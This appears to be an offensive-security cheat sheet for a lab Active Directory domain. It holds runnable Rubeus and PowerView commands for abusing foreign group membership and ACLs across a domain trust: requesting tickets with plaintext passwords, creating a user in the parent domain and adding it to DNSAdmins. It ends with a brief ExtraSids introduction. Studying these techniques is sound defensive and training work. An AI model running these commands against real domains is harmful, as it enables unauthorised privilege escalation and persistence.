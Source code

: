 <details><summary>Enum Foreign ACLs for all users</summary></details>

#### Abuse Foreign Group Membership

```powershell
# Sacrificial logon
./Rubeus createnetonly /program:powershell.exe /show

# Request a ticket
.\Rubeus.exe asktgt /user:jerry /password:jerry /domain:dev.zencorp.ad /ptt

# Create a new domain user in parent domain
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'T3st@123' -AsPlainText -Force
New-DomainUser -Domain zencorp.ad -SamAccountName testuser -AccountPassword $SecPassword

# Add new user in DNSAdmins
Add-ADGroupMember -identity "DNSAdmins" -Members testuser -Server zencorp.ad
```

#### Foreign ACL Principals

Users from a child domain can have ACL permissions on groups/users in parent domain.&#x20;

```powershell
# Enumerate ACLS
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid rita
Tools> Get-DomainObjectAcl -ResolveGUIDs -Identity * -domain zencorp.ad | ? {$_.SecurityIdentifier -eq $sid}
```

#### Abuse Foreign ACL&#x20;

```powershell
# Sacrificial logon
./Rubeus createnetonly /program:powershell.exe /show

# Request a ticket
.\Rubeus.exe asktgt /user:rita /password:rita /domain:dev.zencorp.ad /ptt

# Add member
Add-DomainGroupMember -identity 'Infrastructure' -Members 'DEV\rita' -Domain zencorp.ad -Verbose

# Confirm
Get-DomainGroupMember -Identity 'Infrastructure' -Domain zencorp.ad -Verbose

```

### <mark style="color:yellow;">ExtraSids Attack</mark>

SID History Abuse or ExtraSids attacks can be used to gain higher privileges, going from a child domain to a parent domain. This is used because of SID History. An SID contains permissions, and SID was created to help moving users between domains, as it will let you keep old permissions.
